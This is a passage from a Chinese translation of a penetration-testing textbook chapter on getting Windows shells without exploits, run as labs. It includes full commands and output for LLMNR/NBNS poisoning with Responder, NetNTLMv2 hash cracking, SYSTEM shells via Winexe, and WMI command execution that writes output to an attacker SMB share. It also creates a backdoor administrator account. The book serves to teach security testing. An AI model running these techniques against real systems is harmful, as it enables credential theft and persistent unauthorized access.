- 33. H. Cavusoglu, H. Cavusoglu, and S. Raghunathan，“传播漏洞知识的漏洞披露机制效率”，《美国电气工程师学会汇刊》，第33卷，第3期，第171–185页，2007年3月。

- 34. B. Franklin，《穷理查德年鉴》(1744)。

- 35. K. Price，“美国所得税与漏洞赏金”，Bugcrowd博客，2015年3月17日，http://blog.bugcrowd.com/us-income-taxes-and-bug-bounties/。[访问日期：2017年6月25日]。

## 第三部分

### 利用系统

- 第10章 获取shell而无需利用
- 第11章 基本Linux利用
- 第12章 高级Linux利用
- 第13章 Windows利用
- 第14章 高级Windows利用
- 第15章 PowerShell利用
- 第16章 下一代Web应用程序利用
- 第17章 下一代补丁利用

## 第10章 获取shell而无需利用

渗透测试的关键原则之一是隐蔽性。我们在网络上被发现得越早，响应人员就能越快阻止我们继续推进。因此，使用在网络上看起来自然的工具，以及使用不会对用户产生任何明显影响的实用程序，是我们保持低调的方式之一。在本章中，我们将探讨一些在使用目标系统原生工具的同时获取访问权限并在环境中横向移动的方法。

本章将讨论以下主题：

- 捕获密码哈希
- 使用Winexe
- 使用WMI
- 利用WinRM

### 捕获密码哈希

在探讨不涉及利用漏洞的系统访问方式时，我们必须克服的首要挑战之一就是如何获取这些目标系统的凭据。本章将以我们的目标Windows 10系统为重点，因此首先你需要知道可以捕获哪些哈希，其次你需要知道如何利用这些哈希来为我们所用。

### 了解LLMNR和NBNS

当我们查找DNS名称时，Windows系统会经历多个不同的步骤，将该名称解析为IP地址。第一步涉及搜索本地文件。Windows会在系统上搜索hosts或LMHosts文件，查看该文件中是否存在相应条目。如果没有，下一步是查询DNS。Windows会向默认名称服务器发送DNS查询，看是否能找到条目。在大多数情况下，这会返回一个答案，我们就能看到试图连接的网页或目标主机。

在DNS失败的情况下，现代Windows系统使用两种协议尝试解析本地网络上的主机名。第一种是链路本地多播名称解析(LLMNR)。顾名思义，该协议使用多播来尝试在网络上查找主机。其他Windows系统会订阅此多播地址，当某个主机发送请求时，如果任何监听者拥有该名称并能将其转换为IP地址，就会生成响应。一旦收到响应，系统就会将我们引导至该主机。

但是，如果无法使用LLMNR找到主机，Windows还有一种额外的方法尝试查找主机。NetBIOS名称服务(NBNS)使用NetBIOS协议尝试发现IP。它通过向本地子网发送主机的广播请求来实现这一点，然后等待有人响应该请求。如果存在具有该名称的主机，它可以直接响应，然后我们的系统就知道要访问该资源需要前往该位置。

LLMNR和NBNS都依赖于信任。在正常环境中，主机只有在自己是被搜索的主机时才会响应这些协议。然而，作为恶意行为者，我们可以响应发送到LLMNR或NBNS的任何请求，并声称被搜索的主机归我们所有。然后，当系统访问该地址时，它会尝试与我们的主机协商连接，从而我们可以获取试图连接到我们的账户的相关信息。

### 了解Windows NTLMv1和NTLMv2身份验证

当Windows主机相互通信时，系统可以通过多种方式进行身份验证，例如Kerberos、证书和NetNTLM。我们将首先关注的协议是NetNTLM。顾名思义，NetNTLM提供了一种在网络上发送Windows NT LAN Manager(NTLM)哈希的更安全方式。在Windows NT之前，LAN Manager(LM)哈希用于基于网络的身份验证。LM哈希使用数据加密标准(DES)加密生成。LM哈希的一个弱点是它实际上是将两个独立的哈希组合在一起。密码会被转换为大写，并用空字符填充直到达到14个字符，然后密码的前半部分和后半部分被用来创建哈希的两个部分。随着技术的发展，这变得越来越重要，因为密码的每一半都可以单独破解，这意味着密码破解工具最多只需要破解两个7个字符的密码。

随着彩虹表的出现，破解变得更加容易，因此Windows NT改为使用NT LAN Manager(NTLM)哈希。任何长度的密码都可以进行哈希处理，并且使用RC4算法生成哈希。这对于基于主机的身份验证要安全得多，但在基于网络的身份验证方面存在一个问题。如果有人在监听，而我们只是在网络上传递原始NTLM哈希，什么能阻止该人获取哈希并重放呢？因此，创建了NetNTLMv1和NetNTLMv2质询/响应哈希，以给哈希增加额外的随机性，并使其更难破解。

NTLMv1使用基于服务器的随机数来增加随机性。当我们使用NTLMv1连接到主机时，首先请求一个随机数。接下来，我们取出NTLM哈希，并使用该随机数对其重新进行哈希处理。然后将其发送到服务器进行身份验证。如果服务器知道NT哈希，它可以使用发送的质询重新生成质询哈希。如果两者匹配，则密码正确。该协议的问题在于，恶意攻击者可能诱骗某人连接到他们的服务器并提供一个静态随机数。这意味着NTLMv1哈希仅比原始NTLM凭证稍微复杂一些，破解速度几乎与原始NTLM哈希一样快。因此，创建了NTLMv2。


NTLMv2 在创建质询哈希时提供两个不同的随机数。第一个由服务器指定，第二个由客户端指定。无论服务器是否被攻破并具有静态随机数，客户端仍将通过其随机数增加复杂性，从而确保这些凭据破解速度更慢。这也意味着使用彩虹表不再是破解这类哈希的有效方法。


> **注意** 值得注意的是，质询哈希不能用于哈希传递攻击。如果您不知道自己正在处理哪种类型的哈希，请参阅本章末尾“进一步阅读”部分中关于 hashcat 哈希类型参考的条目。使用提供的 URL 来识别您正在处理的哈希类型。

## 使用 Responder

为了捕获哈希，我们需要使用一个程序来诱导受害主机提供 NetNTLM 哈希。为了获取这些哈希，我们将使用 Responder 来响应发出的 LLMNR 和 NBNS 查询。我们将在服务器端使用固定质询，因此只需处理一组随机性，而不是两组。

### 获取 Responder

Responder 已预装在我们的 Kali Linux 发行版中。但是，Kali 的更新频率并不总是能跟上 Responder 创建者 Laurent Gaffie 提交更新的步伐。因此，我们将使用 git 下载 Responder 的最新版本。为确保已安装所需的所有软件，请先确保 Kali 中已安装构建工具：

```
# apt-get install build-essential git python-dev
```

安装 git 后，我们需要克隆仓库。克隆仓库将下载源代码，并创建一个便于保持软件更新的位置。要克隆仓库，请执行以下操作：

```
root@kali:~ # git clone https://github.com/lgandx/Responder.git
Cloning into 'Responder'...
remote: Counting objects: 1324, done.
remote: Total 1324 (delta 0), reused 0 (delta 0), pack-reused 1324
Receiving objects: 100% (1324/1324), 1.53 MiB | 0 bytes/s, done.
Resolving deltas: 100% (860/860), done.
```

要更新我们的仓库，只需执行以下操作：

```
root@kali:~/Responder # cd Responder/
root@kali:~/Responder # git pull
Already up-to-date.
```

如果有任何更新，我们的代码现在就是最新的。通过在每次执行前验证代码是最新的，我们可以确保使用最新技术来充分利用 Responder。

## 运行 Responder

现在我们已经安装了 Responder，让我们来看看可以使用的一些选项。首先，让我们查看所有帮助选项：

```
root@kali:~/Responder # ./Responder.py -h
```

```
.---------------------------------------------------------------.
| | | | | | | | | | | | | | |
| | | | | | | | | | | | | | |
| | | | | | | | | | | | | | |
'---------------------------------------------------------------'
```

NBT-NS、LLMNR 和 MDNS 响应器 2.3.3.6

作者：Laurent Gaffie (laurent.gaffie@gmail.com)
要终止此脚本，请按 CTRL-C

用法：python ./Responder.py -I eth0 -w -r -f
或者：
python ./Responder.py -I eth0 -wrf

- **--version** 显示程序版本号并退出
- **-h, --help** 显示此帮助消息并退出
- **-A, --analyze** 分析模式。此选项允许您在不响应的情况下查看 NBT-NS、BROWSER、LLMNR 请求。
- **-I eth0, --interface=eth0** 要使用的网络接口，可以使用 'ALL' 作为所有接口的通配符
- **-i 10.0.0.21, --ip=10.0.0.21** 要使用的本地 IP（仅限 OSX）
- **-e 10.0.0.22, --externalip=10.0.0.22** 使用不同于 Responder 的 IP 地址毒化所有请求。
- **-b, --basic** 返回基本 HTTP 身份验证。默认值：NTLM
- **-r, --wredir** 启用对 netbios wredir 后缀查询的响应。响应 wredir 可能会破坏网络上的内容。默认值：False
- **-d, --NBTNSdomain** 启用对 netbios 域后缀查询的响应。响应域后缀可能会破坏网络上的内容。默认值：False
- **-f, --fingerprint** 此选项允许您对发出 NBT-NS 或 LLMNR 查询的主机进行指纹识别。
- **-w, --wpad** 启动 WPAD 恶意代理服务器。默认值为 False
- **-u UPSTREAM_PROXY, --upstream-proxy=UPSTREAM_PROXY** 恶意 WPAD 代理用于发出请求的上游 HTTP 代理（格式：host:port）
- **-F, --ForceWpadAuth** 检索 wpad.dat 文件时强制 NTLM/基本身份验证。这可能会导致登录提示。默认值：False
- **-P, --ProxyAuth** 为代理强制 NTLM（透明）/基本（提示）身份验证。WPAD 不需要开启。此选项与 -r 结合使用时非常有效。默认值：False
- **--lm** 为 Windows XP/2003 及更早版本强制 LM 哈希降级。默认值：False
- **-v, --verbose** 增加详细程度。

这里有很多选项，因此让我们专注于最有用且不太可能破坏任何内容的选项。其中一些选项（例如 wredir）在特定条件下会破坏网络。此外，某些行为会暴露我们，例如强制基本身份验证。当我们强制基本身份验证时，受害者将看到一个要求输入用户名和密码的弹出框。好处是我们将获得明文密码，但坏处是用户可能会意识到出了问题。

现在我们已经了解了不应该做什么，让我们来看看如何调用 Responder。最重要的选项是指定接口。对于我们的测试，我们将使用主网络接口 eth0。如果您所在的系统有多个接口，可以指定备用接口，或使用 ALL 来监听所有接口。我们将指定的下一个选项是 fingerprint。此选项会提供有关网络上使用 NetBIOS 的主机的一些基本信息，例如正在查找的名称和主机操作系统版本。这将让我们了解网络上有什么类型的主机。

最后，我们将设置 WPAD 服务器。WPAD 是 Web 代理自动发现协议。Windows 设备使用它来查找网络上的代理服务器。如果您的 Kali 机器可以直接访问 Internet，则使用它是安全的。但是，如果您的 Kali 机器需要通过代理才能访问网络，那么这将破坏您毒化的客户端，因此请不要使用它。设置此选项的好处是，如果主机为 Web 流量查找 WPAD 服务器，任何 Web 流量都会触发 Responder 的毒化以获取哈希——而没有它，您必须等待有人访问不存在的共享。

## 实验 10-1：使用 Responder 获取密码


> **注意** 本实验包含一个 README 文件，其中讨论了本章中本实验及其他实验的网络设置。因此，您应该先阅读此文件，然后再继续，以确保这些实验对您有效。

现在您已经掌握了基础知识，让我们将知识付诸实践。在我们的网络中，有一台已应用 README 文件中设置的 Windows 10 服务器。我们需要确保两个系统都在同一网络上。然后我们运行 Responder 并启动毒化过程：

```
# ./Responder.py -wf -I eth0
< Banners and some output eliminated for brevity
[+] Poisoning Options:
    Analyze Mode                [OFF]
    Force WPAD auth             [OFF]
    Force Basic Auth            [OFF]
    Force LM downgrade          [OFF]
    Fingerprint hosts           [ON]

[+] Generic Options:
    Responder NIC               [eth0]
    Responder IP                [192.168.1.92]
    Challenge set               [random]
    Don't Respond To Names      ['ISATAP']

[+] Listening for events...
```

现在 Responder 正在监听，我们应该能够使用 Windows 10 主机对不存在的共享发出简单请求，Responder 将处理其余事宜。

如图 10-1 所示，当我们尝试访问共享时，Windows 系统仅返回“拒绝访问”消息。我们在 Windows 系统上没有看到任何其他奇怪的行为。但是，在 Kali 机器上，我们看到了大量活动。



### 图 10-1 请求来自不存在的共享的文件

```
[*] [NBT-NS] Poisoned answer sent to 192.168.1.13 for name NOTAREALHOST
(service: File Server)
[FINGER] OS Version        : Windows 10 Enterprise 15063
[FINGER] Client Version    : Windows 10 Enterprise 6.3
[*] [LLMNR] Poisoned answer sent to 192.168.1.13 for name NOTAREALHOST
[FINGER] OS Version        : Windows 10 Enterprise 15063
[FINGER] Client Version    : Windows 10 Enterprise 6.3
[SMBv2] NTLMv2-SSP Client  : 192.168.1.13
[SMBv2] NTLMv2-SSP Username : DESKTOP-KRB3MSI\User
[SMBv2] NTLMv2-SSP Hash   : User::DESKTOP-KRB3MSI:f302ca27a4602ce8:5C37059307A58D444BEC87E96F96DF1:01010000000000C0653150DE90D2016DCB4A0D9CBA51B300000000200080053004D04200330001001E00570049004E002D005000
520048003000300032005000300010041004005000440001400500200400030003E000600F600330001001E005C0035004F0020004E00
2D005000520048003000300032005000300010041004005000440001400500200400030003E000600F600330001001E005C0035004F004D00
420033002E006C006F00630036001006C00070008000C00653150DE90D2016000040002000000000800030003000000000000000000100000000020
000030CB99C348D4BAF0D86615C43E5A16D516B561B8D59B2D9A6DF4A0A2A9EEBB850A001000000000000000000000000000000000000
090022006300690066006073002F004E004F00540041005C00320034005000401400C048004F00530050004000000000000000000000000000
```


注意，这里正在进行两种不同类型的中毒攻击。第一种是 NBNS 中毒 3，第二种是 LLMNR 4。由于指纹识别，这两个请求都会向我们提供关于底层主机操作系统的信息，我们可以看到请求主机的 IP 地址以及它试图连接的系统。我们得到的最后一段数据是 NetNTLMv2 哈希值及其用户名 5。我们可以尝试破解这个凭据，看看它是否能在系统上使用。

现在我们有了有效的哈希值，请在 Responder 窗口中按 CTRL-C 使其停止运行。下一步是将 Responder 中的哈希值导出为 John the Ripper 可处理的格式：

```
# ./DumpHash.py
Dumping NTLMV2 hashes:
User::DESKTOP-KRB3MSI:f302ca27a4602ce8:5C37059307A58D444EEC87E96F696DF1:0101000000000000C653150
DE09D2016DCBA4AD09CBA51E3000000000200080053004D00420030001001E005700409004E002D005000520048003400
3900320052005100410040046005600400014005300400420033002E00C006F0063000001006C00300340057004900400
2D00500052004800340039003200520051004100400460056002E0053004D00420030002E006C0006F0063006e003006500
14005300400420033002E006c006F0063006e003006C0070000000000C653150DE09D201606004000200000008003003000
000000000000100000000200000030CB99C348D4B4FPD0B6615C43E5A16D516B561BD859B2D9A6DPF04A2A9E8B850A00
10000000000000000000000000000000000000900220063006900660060073002F004E004F0054004100505020045004100400
48004F005300540000000000000000000000000000000000000000

Dumping NTLMv1 hashes:
```

我们可以在此处看到自己的 NetNTLMv2 哈希值，但目录中还创建了两个新文件：DumpNTLMv2.txt 和 DumpNTLMv1.txt。已知传递给 Responder 的哈希值为版本 2（v2），因此我们可以直接针对 v2 文件运行 John，看看它是否能破解密码：

```
# john DumpNTLMv2.txt
Using default input encoding: UTF-8
Rules/masks using ISO-8859-1
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/32])
Press 'q' or Ctrl-C to abort, almost any other key for status
Password1   (User)
1g 0:00:00:00 DONE 2/3 (2017-08-23 21:13) 9.090g/s 158027p/s 158027c/s
158027C/s Password1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

John 已成功破解我们的密码，并为“User”用户找到了密码“Password1”。凭借这些凭据，我们可以远程访问系统。在本章的其余部分，我们将使用这些凭据与受害机器进行进一步交互。

## 使用 Winexe

Winexe 是一款在 Linux 上运行的 Windows 系统远程管理工具。使用 Winexe，我们可以在目标系统上运行应用程序或打开一个交互式命令提示符。额外的好处是，如果目标系统中的用户拥有提升的凭据，我们可以要求 Winexe 以“系统”身份启动我们的 shell，从而获得对系统的额外权限。

## Lab 10-2: 使用 Winexe 访问远程系统

我们已通过使用 Responder 获得受害系统的密码，但现在该如何与受害系统交互呢？使用 Winexe 是攻击者访问远程系统的常见方式。它通过目标系统上的隐藏 IPC 共享使用命名管道来创建管理服务。一旦该服务创建完成，我们就可以连接到它并以服务身份调用命令。

要验证目标系统是否共享了 IPC 共享，我们使用 smbclient 列出目标系统上的共享：

```
# smbclient -U User%Password1 -L 192.168.1.13
WARNING: The "syslog" option is deprecated
Domain=[DESKTOP-KRB3MSI] OS=[Windows 10 Enterprise 15063]
Server=[Windows 10 Enterprise 6.3]
```

| 共享名 | 类型 | 注释 |
|-----------|------|---------|
| ADMIN$ | Disk | 远程管理 |
| C$ | Disk | 默认共享 |
| IPC$ | IPC | 远程 IPC |
| Users | Disk | |

```
Connection to 192.168.1.13 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
NetBIOS over TCP disabled -- no workgroup available
```

在本章其余部分使用的许多工具中，我们将看到指定目标系统登录凭据的常见方式。格式是 <DOMAIN>\\<USERNAME>%<PASSWORD>。在这里，我们将用户凭据指定为 User%Password1，即我们的用户名和密码。-L 选项要求 smbclient 列出系统上的共享。我们可以看到有多个共享，包括我们的 IPC$ 共享。

既然知道 IPC 共享可用，让我们看看是否有能力启动命令提示符。我们将使用相同的语法来指定用户名，只不过这次，我们将使用语法 //<IP ADDRESS> 来指定目标系统。我们还添加 --uninstall 标志，该标志将在退出时卸载我们的服务。最后，我们为 cmd.exe 应用程序指定 cmd.exe，这使我们在目标系统上获得一个交互式 shell。

```
# winexe -U User%Password1 --uninstall //192.168.1.13 cmd.exe
Microsoft Windows [Version 10.0.15063]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\\Windows\\system32>whoami
whoami
desktop-krb3msi\\user
```

我们现在看到 Windows 横幅和命令提示符，这意味着我们成功了。接下来，我们想要检查权限级别，以便确定我们正在运行的权限。通过输入 whoami，我们可以打印出 shell 的用户 ID。在这里，我们的用户是“user”用户，这意味着我们将拥有该用户的权限。

警告 如果你使用 CTRL-C 退出 shell，或者不使用 --uninstall 标志，创建的服务将保留在目标系统上。作为攻击者，这很不妥，因为你留下了所使用的远程访问技术的痕迹。作为渗透测试人员，留下工艺品会使很难确定是否发生了另一次入侵，并且在你离开系统后可能会触发红旗。这并不总是立即出现。六个月后，有人可能会问你是否留下了服务。因此，如果你不清理，你将不得不依赖笔记来回答一些非常不舒服的问题。

最后，要离开我们的 shell，可以在命令提示符下输入 exit。然后我们应该看到 Bash 提示符，这让我们知道已经离开了 shell。在服务器端，我们的服务正在被卸载，我们的连接已关闭。

## Lab 10-3: 使用 Winexe 获取提升的权限

在许多情况下，我们想要在目标系统上执行的操作需要提升的权限。在上一个实验中，我们能够以普通用户身份访问，但我们真的希望以 SYSTEM 用户身份访问。由于此用户对系统拥有完全权限，我们可以访问凭据、内存和其他有价值的目标。

要执行我们的攻击，我们将使用与上一个实验相同的所有选项，但我们会添加 --system 标志。这将为我们处理权限升级，最终结果是一个权限很高的 shell，如下所示：

```
# winexe -U User%Password1 --uninstall --system //192.168.1.13 cmd.exe
Microsoft Windows [Version 10.0.15063]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

如您所见，我们现在正以 SYSTEM 用户身份访问受害机器。尽管这不属于本练习的范围，但这使我们可以转储凭据、创建新用户、重新配置设备以及执行许多普通用户可能无法完成的其他任务。

## 使用 WMI

Windows 管理规范 (WMI) 是一组用于跨企业访问系统配置信息的规范。WMI 允许管理员查看进程、补丁、硬件以及有关目标系统的许多其他信息。它具有根据调用用户的权限在目标系统上列出信息、创建新数据、删除数据和更改数据的能力。作为攻击者，这意味着我们可以使用 WMI 了解目标系统的大量信息，以及操纵系统状态。

## Lab 10-4: 使用 WMI 查询系统信息

知道可以使用 WMI 查询系统信息后，我们可能想了解目标系统的许多事情。例如，我们可能想知道谁正在交互式登录，以查看我们是否有被抓住的风险。在这个实验中，我们将使用两个不同的 WMI 查询来查看哪个用户或哪些用户已登录到目标系统。

要查询 WMI，我们必须构建一个 WMI 查询语言 (WQL) 查询，以获取我们要查找的信息。WQL 与用于数据库查询的结构化查询语言 (SQL) 相似。不过，要构建我们的查询，我们需要知道更多关于 WMI 的工作原理。我们需要知道的最重要的一点是我们将查询的类。本章末尾的“进一步阅读”部分包含一个条目，指向 Microsoft 通过 WMI 可访问的类列表。不过，在这个练习中，我们将只看两个类。

我们将要查询的第一个类是 win32_logonsession 类。1 该类包含有关已登录会话的信息、已执行的登录类型、开始时间和其他数据。让我们先组合一个查询，然后我们将看看如何使用 WMI 执行此查询：

```
select LogonType,LogonId from win32_logonsession
```

使用此查询，我们从 win32_logonsession 类中选择两个不同的数据片段。第一个是 LogonType，其中包含有关正在执行的登录类型的信息。第二个 LogonId 是登录会话的内部 ID 号。要执行此查询，我们必须使用 WMI 客户端。Kali 有两个用于 WMI 查询的客户端：第一个是 pth-wmic，第二个是 Impacket 脚本的一部分。pth-wmic 客户端更易于脚本化，因此我们将专注于该客户端。

pth-wmic 的语法与我们在上一个实验中使用的 Winexe 工具类似。我们将以相同的方式指定用户和主机，然后将 WQL 查询添加到命令末尾，如下所示：


```
# pth-wmic -U User%Password1 //192.168.1.13 "select LogonType,LogonId from win32_logonsession"
CLASS: Win32_LogonSession
LogonId|LogonType
999|0
997|5
996|5
1273458|2
1272968|2
47231206|3
108372|3
57570|2
57521|2
39092|2
39138|2
```

查看我们的查询输出，我们可以看到会话和登录类型。这里显示了若干登录类型，那么我们如何知道哪些会话是我们感兴趣的？要确定这一点，请参阅表 10-1，它显示了不同的登录类型及其含义。

| 登录类型 | 含义 |
| --- | --- |
| 0 | SYSTEM 账户登录，通常由计算机本身使用。 |
| 2 | 交互式登录。这通常是控制台访问，但也可能是终端服务或其他类型的登录，用户直接与系统交互。 |
| 3 | 网络登录。这是 WMI、SMB 和其他非交互式远程协议的登录。 |
| 5 | 服务登录。此登录保留用于运行服务，尽管这表明可能存在内存中的凭据，但用户不会直接与系统交互。 |
| 10 | 远程交互式登录。这通常是终端服务登录。 |

既然我们知道了类型的含义，让我们将查询限制为仅类型 2 的登录。这应该告诉我们需要查找哪些登录 ID，以便找到交互式用户登录。

```
# pth-wmic -U User%Password1 //192.168.1.13 "select LogonType,LogonId from win32_logonsession where LogonType=2 "
CLASS: Win32_LogonSession
LogonId|LogonType
1273458|2
1272968|2
57570|2
57521|2
39092|2
39138|2
```

我们仍然看到若干不同的登录。让我们来看其中三个：一个在 30K 系列中，一个在 50K 系列中，还有一个在“超过 100 万”系列中。登录会话映射到 win32_loggedonuser 表中的用户。不幸的是，通过 WQL 查询特定登录 ID 比较困难，因为值是字符串而不是整数，因此我们将使用 pth-wmic 和 egrep 来定位我们想要的值：

```
pth-wmic -U User%Password1 //192.168.1.13 'select * from win32_loggedonuser ' \
| egrep -e 1273458 -e 57570 -e 39092
\\.\root\cimv2:Win32_Account.Domain="DESKTOP-KRB3MSI",Name="User"
\\.\root\cimv2:Win32_LogonSession.LogonId="1273458"
\\.\root\cimv2:Win32_Account.Domain="DESKTOP-KRB3MSI",Name="DWM-1"
\\.\root\cimv2:Win32_LogonSession.LogonId="57570"
\\.\root\cimv2:Win32_Account.Domain="DESKTOP-KRB3MSI",Name="UMFD-0"
\\.\root\cimv2:Win32_LogonSession.LogonId="39092"
```

我们看到了三个用户：User、DWM-1 和 UMFD-0。DWM 和 UMFD 是基于驱动程序的账户，因此我们可以安全地忽略它们。我们看到一种模式，因此让我们只看 100 万以上的进程：

```
# pth-wmic -U User%Password1 //192.168.1.13 'select * from win32_loggedonuser ' \
| egrep -e 1273458 -e 1272968
\\.\root\cimv2:Win32_Account.Domain="DESKTOP-KRB3MSI",Name="User"
\\.\root\cimv2:Win32_LogonSession.LogonId="1273458"
\\.\root\cimv2:Win32_Account.Domain="DESKTOP-KRB3MSI",Name="User"
\\.\root\cimv2:Win32_LogonSession.LogonId="1272968"
```

最后，我们可以看到登录到该机器的会话。两者都是 User 用户。使用 WMI，我们已确定 User 正在以交互方式登录到系统。因此，如果我们做任何会弹出窗口或造成干扰的事情，我们可能会被发现。

## Lab 10-5: 使用 WMI 执行命令

现在我们对 WMI 有了一定了解，让我们来看看如何执行命令。使用 WMI 执行命令有两种选择：我们可以使用 WMI 创建一个新进程，然后监控输出，也可以使用 Kali 自带的工具之一。在此示例中，我们将使用 pth-wmis 二进制文件来启动命令。但是，这要求我们创建一个位置来捕获命令的输出。

在此练习的设置中，我们将加载最新的 Impacket 源代码，并使用随附的独立 SMB 服务器。Impacket 是一系列 Python 脚本，允许我们与 Samba 外部的事物进行交互。它经常用于开发需要 SMB 交互的漏洞利用工具。以下是获取和安装最新工具的说明：

```
# git clone https://github.com/CoreSecurity/impacket.git
Cloning into 'impacket'...
remote: Counting objects: 11632, done.
remote: Compressing objects: 100% (22/22), done.
remote: Total 11632 (delta 7), reused 14 (delta 3), pack-reused 1160
Receiving objects: 100% (11632/11632), 3.92 MiB | 6.94 MiB/s, done.
Resolving deltas: 100% (8806/8806), done.
# cd impacket/
# python setup.py install
```

接下来，我们想启动 SMB 服务器。让我们在另一个窗口中完成此操作，以便我们可以使用当前窗口进行工作。我们将使用刚刚安装的 smbserver.py 脚本来启动共享。我们要将 /tmp 目录映射到名为“share”的共享。让我们试试：

```
# service smbd stop
# smbserver.py share /tmp/
Impacket v0.9.16-dev - Copyright 2002-2017 Core Security Technologies

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
```

既然我们的 SMB 服务器已启动，让我们验证它是否正常工作。我们将使用 smbclient 工具以及 -N 标志来告诉它不使用身份验证，并列出本地系统上的共享。

```
# smbclient -N -L localhost
WARNING: The "syslog" option is deprecated
Domain=[ZwxSoyga] OS=[KiAoumIA] Server=[KiAoumIA]

    Sharename      Type      Comment
    ---------      ----      -------
    SHARE          Disk
    IPC$           Disk
```

我们看到我们的共享已存在。此共享映射到 Kali 系统 tmp 目录，并允许写入，因此我们可以将输出重定向到共享。Windows 的一个好处是，你不需要映射共享即可读写它，因此登录用户不会注意到加载了一个奇怪的共享。

要进行基本测试，让我们运行一个 pth-wmis 命令，该命令只会将一些简单的内容回显到文件。在此示例中，我们将使用类似 pth-wmic 的命令，但我们会在末尾包含我们的命令。我们针对 Windows 目标运行此命令：

```
# pth-wmis -U User%Password1 //192.168.1.13 'cmd.exe /c whoami \
> \\192.168.1.92\share\out.txt'
[wmi/wmis.c:172:main()] 1: cmd.exe /c whoami > \\192.168.1.92\share\out.txt
NTSTATUS: NT_STATUS_OK - Success
# cat /tmp/out.txt
desktop-krb3msi\user
```

接下来，让我们做一些更有趣的事情。让我们创建一个后门用户，以便我们稍后可以重新进入。我们希望将此用户添加到本地 Administrators 组，以便我们连接回来时拥有完全访问权限。这可以确保，如果用户更改了密码，我们仍然可以访问目标系统。首先，我们将使用 net user 命令创建一个名为 evilhacker 的新用户：

```
# pth-wmis -U User%Password1 //192.168.1.13 \
'cmd.exe /c net user evilhacker Abc123! /add > \\192.168.1.92\share\out.txt'
[wmi/wmis.c:172:main()] 1: cmd.exe /c net user evilhacker Abc123! /add >
\\192.168.1.92\share\out.txt
NTSTATUS: NT_STATUS_OK - Success
root@kali:/tmp# cat /tmp/out.txt
The command completed successfully.
```

我们可以看到我们的命令成功了，但使用 WMI 时，这只是意味着它成功启动了二进制文件；这并不意味着活动成功。我们将命令的输出记录到文件中，以便我们可以查看应用程序打印了什么。在此示例中，文件显示命令已成功完成。既然系统上有了一个新用户，现在让我们使用 net localgroup 将此新用户添加到本地 Administrators 组：

```
# pth-wmis -U User%Password1 //192.168.1.13 \
'cmd.exe /c net localgroup Administrators evilhacker \
/add > \\192.168.1.92\share\out.txt'
[wmi/wmis.c:172:main()] 1: cmd.exe /c net localgroup Administrators
evilhacker /add > \\192.168.1.92\share\out.txt
NTSTATUS: NT_STATUS_OK - Success
# pth-wmis -U User%Password1 //192.168.1.13 \
'cmd.exe /c net localgroup Administrators > \\192.168.1.92\share\out.txt'
[wmi/wmis.c:172:main()] 1: cmd.exe /c net localgroup Administrators >
\\192.168.1.92\share\out.txt
NTSTATUS: NT_STATUS_OK - Success
# cat /tmp/out.txt
Alias name Administrators
Comment Administrators have complete and unrestricted access to
the computer/domain
Members
---------------------------------------------
Administrator
evilhacker
User
The command completed successfully.
```


现在我们已将用户 evilhacker 添加到 Administrators 组，让我们确认我们的活动是否成功。我们将返回并针对 Administrators 组使用 net localgroup，确保我们的用户出现在列表中。我们检查输出文件，发现用户已在该组内，因此已成功。最后，让我们检查以确保我们拥有访问权限：

```
# winexe -U 'evilhacker%Abc123!' --system --uninstall //192.168.1.13 cmd
Microsoft Windows [Version 10.0.15063]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

我们已成功在系统中创建了一个后门，允许我们日后返回并访问该系统。我们已将其添加到 Administrators 组，以便将权限提升到 SYSTEM 用户。当我们尝试 winexe 命令时，成功获得了一个 shell，验证了无论用户将来如何更改密码，我们在需要时都能访问。

## 利用 WinRM

WinRM 是一个相对较新的工具，受 Windows 系统支持。从 Windows 8 和 Windows Server 2012 开始，该工具提供了一种与 Windows 系统进行远程交互的额外方式。WinRM 使用基于 Web 的连接上的 SOAP 来与目标系统交互。它支持 HTTP 和 HTTPS，以及基于 Basic Auth、哈希和 Kerberos 的身份验证。除了能够使用基于 WMI 的接口进行脚本编写、启动应用程序和与 PowerShell 交互之外，当我们发现它可用时，这是一个我们可以使用的非常强大的工具。

## 实验 10-6：使用 WinRM 执行命令

WinRM 帮助我们的方式之一是允许我们在远程系统上执行命令。不幸的是，在撰写本文时，Kali 中没有很多命令行工具可以做到这一点。但是，有一个名为 pywinrm 的 Python 库可用于与 WinRM 交互。我们将使用该库来执行命令。我们已在 Gray Hat Hacking github 仓库的 Ch10 目录中为第 5 章包含了一个脚本，它将帮助我们执行命令。但首先，我们需要安装 pywinrm Python 模块。

为此，打开一个 Kali shell 并输入 pip install pywinrm。这将下载并安装 Python 模块以及任何其他所需的子模块。安装完成后，请确保你从书籍材料中获取了 ghwinrm.py 脚本。ghwinrm.py 脚本使用 pywinrm 来允许我们通过 WinRM 调用 PowerShell 命令或 shell 脚本。

ghwinrm.py 的语法与我们使用的其他工具类似。让我们使用它来运行一个简单的 whoami 命令。我们只需要指定用户、目标以及要运行的命令：

```
# .\ghwinrm.py -c -U user%Password1 -t 192.168.1.13 whoami
desktop-krb3msi\user
```

